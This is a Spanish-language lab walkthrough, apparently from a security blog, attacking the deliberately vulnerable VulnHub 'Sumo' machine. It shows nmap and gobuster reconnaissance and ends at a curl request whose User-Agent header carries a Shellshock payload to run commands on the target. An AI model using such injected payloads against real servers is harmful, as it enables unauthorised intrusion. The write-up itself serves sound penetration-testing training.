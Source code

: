     vk9-sec - (”[https://vk9-sec.com/overlayfs-local-privilege-escalation-cve-2015-1328/](https://vk9-sec.com/overlayfs-local-privilege-escalation-cve-2015-1328/)”)
    

## Escenario

Cuando un sistema operativo con un Kernel muy antiguo como versiones anteriores a 3.0, se hace propenso a muchas vulnerabilidades. En este lab se usará la máquina Sumo de VulnHub y se explotará la vulnerabilidad “Dirty Cow”.
Link de descarga: [https://www.vulnhub.com/entry/sumo-1,480/](https://www.vulnhub.com/entry/sumo-1,480/)

## Reconocimiento

Primero se hará un escaneo con nmap para descubrir puertos abiertos:

```bash
nmap -p- -sS --open -vvv -n -Pn 192.168.0.106
```

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled.png)

La máquina tiene el servicio HTTP abierto y la página se ve de la siguiente manera:

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 1.png)

Se hará un fuzzing de directorios con gobuster

```bash
gobuster dir -w /usr/share/wordlists/SecLists/
Discovery/Web-Content/directorio-list-2.3-medium 
-u http://192.168.0.106/ --add-slash
```

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 2.png)

Viendo el directorio “/cgi-bin/” se podría pensar en que el servidor es vulnerable a shellshock por lo que se buscarán archivos pl, sh, cgi, etc.

![Untitled](/assets/Privesc/Kernel-Exploitation/Untitled 3.png)

Ahora se envía una petición con curl modificando el “User-Agent” para si el servidor es vulnerable a shellshock:

```bash
{% raw %}
curl -s "http://192.168.0.106/cgi-bin/test" 
-H "User-Agent: () { :; }; echo; /usr/bin/whoami"
{% endraw %}
```
